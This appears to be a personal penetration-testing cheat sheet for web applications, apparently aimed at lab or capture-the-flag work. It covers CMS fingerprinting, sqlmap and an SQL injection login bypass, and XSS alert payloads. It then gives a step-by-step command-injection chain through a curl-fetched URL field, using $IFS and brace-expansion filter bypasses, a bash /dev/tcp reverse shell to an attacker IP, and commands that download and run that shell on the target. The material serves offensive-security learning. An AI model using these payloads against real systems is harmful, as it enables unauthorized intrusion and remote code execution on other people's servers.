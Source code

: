 # First Steps
## Wappalyzer 
Shows which techologies were used to create the website
- Security
- Cloud
- CMS
- Language

### CMS Systems
#### WordPress (Open-Source)
Websites around blogging 
#### Magento (Open-Source)
Websites around shopping

## Check URL's
Click around the website and see how the folders are organized
> [!NOTE] 
> Check what the home folder is (Ex. index.php). \
> Index.php/folders are common in MVC frameworks like Codeigniter and Laravel
## Copyright 
The copyright at the bottom of the page typically indicates when the website was last updated. If you see an old copyright, the website will typically have old software.
> [!NOTE] 
> The website can be configured to pull the current date for the copyright
## Check for a CMS scanner 
Look for a scanner for the CMS that the website was created with.
- **WordPress**: wpscan
- **Magento**: magescan
```bash
php magescan.phar scan:all http://IP/
```

## Common Files
- **index.php**: tells you if it is a php website
- **robots.txt**: guide for search engine bots (telling them where not to go)
- **index.html**: default home page

# Next Steps
## Login Page 
### Try Default Creds 
admin:admin
> [!NOTE] 
> Look up default credentials based on the service
### SQL Injection
admin:' or 1=1;--
### SQLMap
1. Capture a login request with Burp and save it as log.req
2. Run SQL injection testing
```bash
sqlmap -r login.req --batch --dbs --level=3 --risk=3
```
> [!NOTE] 
> Cross Site Request Forgery (CSRF) Tokens are unique for each session/request and are validated server-side. This makes it hard for sqlmap to work properly.


> [!Caution]
> Running a high risk factor could negatively impact the server
### Forgot Password
See if you can validate email addresses.
### Sign Up 
Try to sign up for a new account

## Posts
### Cross-Site Scripting 
Attempt to Bold Text
```form
<b>TITLE/USERNAME</b>
```
Alert
```form
<script>alert(0)</script>
```
### Check if there is a User-Agent 
Set up Listener on Attacking Machine
```bash
sudo nc -lvnp 80
```
In Post
```form
http://<ATTACKING_IP>/
```
Take note User-Agent (ex. Curl)
#### Curl
Ex. Request:
```bash
os.popen(curl $Content)
```
1. Check if you can download a file

(On Attacking Machine)
  ```bash
  echo "Test" > test
  ```
(Website: Post)
  ```form
  http://<ATTACKING_IP>/test -o /var/www/html/test
  ```
(Website)
Go to http://IP/test to see if the test file is there

2. Check if you can execute code

Proof of Concept:
  ```form
  http://<ATTACKING_IP>/$(whoami)
  ```
Burp Suite Repeater (Capture Request)

  Test
  ```form
  http://<ATTACKING_IP>/$(echo test)
  ```

  URL Encoding
  ```form
  http://<ATTACKING_IP>/$(echo+test)
  ```

  Bracket Expansion
  ```form
  http://<ATTACKING_IP>/$({echo,test})
  ```

  IFS Variable
  ```form
  http://<ATTACKING_IP>/$(echo$IFS'test')
  ```

3. Execute a Reverse shell
Reverse Shell
```File
bash -c 'bash -i &> /dev/tcp/<ATTACKING_IP>/<PORT> 0>&1'
```
Start Web Server 
```bash
sudo python3 -m http.server 80
```
Download Reverse Shell
```form
http://<ATTACKING_IP>/$(curl$IFS' -o'$IFS'/var/www/html/test'$IFS'http://ATTACKING_IP>/test')
```
Execute Reverse Shell
```form
http://<ATTACKING_IP>/$(bash$IFS'/var/www/html/test')
```
## Searchsploit
Search for CMS exploits with similar version numbers 
> [!NOTE]
> Compare creation_date/vendor_contact to copyright (creation after copyright)



